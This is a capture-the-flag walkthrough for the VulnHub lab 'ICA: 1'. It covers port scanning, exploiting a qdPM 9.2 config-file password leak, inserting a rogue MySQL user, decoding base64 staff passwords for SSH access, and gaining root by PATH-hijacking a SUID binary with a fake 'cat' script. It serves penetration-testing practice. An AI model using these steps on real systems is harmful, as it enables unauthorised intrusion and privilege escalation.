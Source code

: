 # Info

ICA: 1

https://www.vulnhub.com/entry/ica-1,748/

According to information from our intelligence network, ICA is working on a secret project. We need to find out what the project is. Once you have the access information, send them to us. We will place a backdoor to access the system later. You just focus on what the project is. You will probably have to go through several layers of security. The Agency has full confidence that you will successfully complete this mission. Good Luck, Agent!

# My rating
Fun: 5/5
Interresting: 4/5 
Difficult: 3/5

# Enumeration 

```bash
nmap 192.168.56.1/24                                                                                          130 ⨯

Nmap scan report for 192.168.56.12
Host is up (0.00036s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

```bash
searchsploit qdpm 9.2 
-------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                        |  Path
-------------------------------------------------------------------------------------- ---------------------------------
qdPM 9.2 - Cross-site Request Forgery (CSRF)                                          | php/webapps/50854.txt
qdPM 9.2 - Password Exposure (Unauthenticated)                                        | php/webapps/50176.txt
-------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

cat /usr/share/exploitdb/exploits/php/webapps/50176.txt              
# Exploit Title: qdPM 9.2 - DB Connection String and Password Exposure (Unauthenticated)
# Date: 03/08/2021
# Exploit Author: Leon Trappett (thepcn3rd)
# Vendor Homepage: https://qdpm.net/
# Software Link: https://sourceforge.net/projects/qdpm/files/latest/download
# Version: 9.2
# Tested on: Ubuntu 20.04 Apache2 Server running PHP 7.4

The password and connection string for the database are stored in a yml file. To access the yml file you can go to http://<website>/core/config/databases.yml file and download.  
```

```yaml
all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qdpm;host=localhost'
      profiler: false
      username: qdpmadmin
      password: "<?php echo urlencode('UcVQCMQk2STVeS6J') ; ?>"
      attributes:
        quote_identifier: true  
  
```

![database password](03.png)


 mysql -h 192.168.56.12 -u qdpmadmin -p 


 ```mysql
MySQL [qdpm]> select * from users;
Empty set (0.001 sec)

MySQL [qdpm]> desc users;
+----------------+--------------+------+-----+---------+----------------+
| Field          | Type         | Null | Key | Default | Extra          |
+----------------+--------------+------+-----+---------+----------------+
| id             | int          | NO   | PRI | NULL    | auto_increment |
| users_group_id | int          | YES  | MUL | NULL    |                |
| name           | varchar(255) | NO   |     |         |                |
| photo          | varchar(64)  | YES  |     | NULL    |                |
| email          | varchar(255) | NO   |     |         |                |
| culture        | varchar(5)   | YES  |     | NULL    |                |
| password       | varchar(64)  | NO   |     |         |                |
| active         | tinyint(1)   | YES  |     | NULL    |                |
| skin           | varchar(64)  | YES  |     | NULL    |                |
+----------------+--------------+------+-----+---------+----------------+
9 rows in set (0.010 sec)


MySQL [qdpm]> insert into  users (users_group_id, name,email,password, active) VALUES (1, "test", "test@local.com", md5("test"), 1);

 ```

 ```mysql
MySQL [staff]> use staff;
Database changed

MySQL [staff]> select name, role, password from user as u join login as l where l.user_id = u.id; 
+--------+---------------------------+--------------------------+
| name   | role                      | password                 |
+--------+---------------------------+--------------------------+
| Lucas  | Computer Engineer         | c3VSSkFkR3dMcDhkeTNyRg== | 
| Dexter | Cyber Security Analyst    | N1p3VjRxdGc0MmNtVVhHWA== | 
| Smith  | Cyber Security Specialist | WDdNUWtQM1cyOWZld0hkQw== | 
| Travis | Intelligence Specialist   | REpjZVZ5OThXMjhZN3dMZw== | 
| Meyer  | Genetic Engineer          | Y3FObkJXQ0J5UzJEdUpTeQ== | 
+--------+---------------------------+--------------------------+
5 rows in set (0.002 sec)

 ```

Lucas - c3VSSkFkR3dMcDhkeTNyRg== -> suRJAdGwLp8dy3rF
Dexter - N1p3VjRxdGc0MmNtVVhHWA== -> 7ZwV4qtg42cmUXGX (ssh login)
Smith  - WDdNUWtQM1cyOWZld0hkQw== -> X7MQkP3W29fewHdC
Travis - REpjZVZ5OThXMjhZN3dMZw== -> DJceVy98W28Y7wLg
Meyer - Y3FObkJXQ0J5UzJEdUpTeQ== -> cqNnBWCByS2DuJSy

```bash
dexter@debian:~$ cat note.txt 
It seems to me that there is a weakness while accessing the system.
As far as I know, the contents of executable files are partially viewable.
I need to find out if there is a vulnerability or not.

dexter@debian:~$ ls -l /home
total 8
drwxrwx--- 3 dexter dexter 4096 Sep 25  2021 dexter
drwxrwx--- 3 travis travis 4096 Sep 25  2021 travis
```

```bash

travis@debian:/home/travis$ cat user.txt 
ICA{Secret_Project}
```

```bash
ind / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
-rwsr-xr-x 1 root root 16816 Sep 25  2021 /opt/get_access
-rwsr-xr-x 1 root root 58416 Feb  7  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root 35040 Jul 28  2021 /usr/bin/umount
-rwsr-xr-x 1 root root 88304 Feb  7  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 182600 Feb 27  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 63960 Feb  7  2020 /usr/bin/passwd
-rwsr-xr-x 1 root root 44632 Feb  7  2020 /usr/bin/newgrp
-rwsr-xr-x 1 root root 71912 Jul 28  2021 /usr/bin/su
-rwsr-xr-x 1 root root 55528 Jul 28  2021 /usr/bin/mount
-rwsr-xr-x 1 root root 52880 Feb  7  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 481608 Mar 13  2021 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 51336 Feb 21  2021 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
dexter@debian:~$ /opt/get_access 

  ############################
  ########     ICA     #######
  ### ACCESS TO THE SYSTEM ###
  ############################

  Server Information:
   - Firewall:  AIwall v9.5.2
   - OS:        Debian 11 "bullseye"
   - Network:   Local Secure Network 2 (LSN2) v 2.4.1

All services are disabled. Accessing to the system is allowed only within working hours.
```

![reverse engeeniered](04.png)


```bash 
echo "#!/bin/bash" > cat
echo "bash" >> cat
chmod +x cat

export PATH=.:$PATH
/opt/get_access 
```

root@debian:/root# cat root.txt 
ICA{Next_Generation_Self_Renewable_Genetics}

